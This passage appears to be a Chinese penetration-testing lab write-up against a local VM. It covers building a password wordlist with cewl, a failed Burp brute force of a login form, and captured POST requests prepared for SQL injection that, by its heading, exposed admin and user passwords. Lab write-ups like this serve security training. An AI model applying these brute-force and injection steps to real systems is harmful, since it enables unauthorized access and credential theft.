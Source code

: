 这一页好像有大量信息，可以收集起来，作为后续爆破基础
![[QQ_1724295644394.png]]

使用 `cewl` 收集
```sh
cewl http://192.168.84.130/display.php > passwd
```

发现登录页面，弱口令和万能钥匙都不行
![[QQ_1724297025883.png]]

于是上 bp ，开始爆破
![[QQ_1724297006193.png]]

登录框爆破失败
这种爆破应该放后面再说。。。前期先弄巧妙一点
### 尝试 sql 注入，成功获取 admin 密码，以及大量用户密码
search 用来搜索，manage 用来登录，似乎都能用上数据库，于是抓包，尝试 sql 注入
分别抓取 search 和 manage，并将请求包复制到 `search.txt` 和 `manage.txt`
![[QQ_1724300042011.png]]

```
POST /results.php HTTP/1.1
Host: 192.168.84.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Origin: http://192.168.84.130
Connection: keep-alive
Referer: http://192.168.84.130/search.php
Cookie: PHPSESSID=70emgihuna0j4b4j4mgt530l08
Upgrade-Insecure-Requests: 1

search=111
```

![[QQ_1724300113627.png]]

```
POST /manage.php HTTP/1.1
Host: 192.168.84.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://192.168.84.130
Connection: keep-alive
Referer: http://192.168.84.130/manage.php
Cookie: PHPSESSID=70emgihuna0j4b4j4mgt530l08
Upgrade-Insecure-Requests: 1

username=11&password=11
```
